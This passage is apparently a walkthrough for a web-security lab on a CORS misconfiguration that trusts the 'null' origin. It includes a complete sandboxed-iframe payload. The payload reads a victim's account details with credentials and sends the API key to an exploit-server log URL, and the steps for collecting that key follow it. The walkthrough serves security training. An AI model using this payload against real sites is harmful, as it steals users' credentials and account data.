 This confirms that **`null` is whitelisted**.

![image](https://github.com/user-attachments/assets/8d5c8b3e-2dae-448c-9e92-2491dd20c12a)

---

### 2. Exploit via Sandboxed `iframe`

Since sandboxed iframes can trigger a `null` origin, we embed our payload in an `iframe` using the `sandbox` attribute.

**Exploit Payload:**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
<script>
  var req = new XMLHttpRequest();
  req.onload = function() {
    location = 'https://exploit-your_id.exploit-server.net/log?key=' + encodeURIComponent(this.responseText);
  };
  req.open('GET', 'https://vulnerable-website.com/accountDetails', true);
  req.withCredentials = true;
  req.send();
</script>
"></iframe>
```

![image](https://github.com/user-attachments/assets/06cb9ce7-6179-4685-8c88-7e0c90b580e8)


> Replace the endpoint URLs as appropriate for the lab environment.

Once the payload is delivered to the victim, access the **Access Log** on your exploit server.

![image](https://github.com/user-attachments/assets/f9f28bf3-5ecb-4d8b-adb1-86c7b655cba7)


Submit the API key of administrator to solve the lab.

![image](https://github.com/user-attachments/assets/5cecbb8e-452a-4f28-89b0-484ddafb2298)

```

---


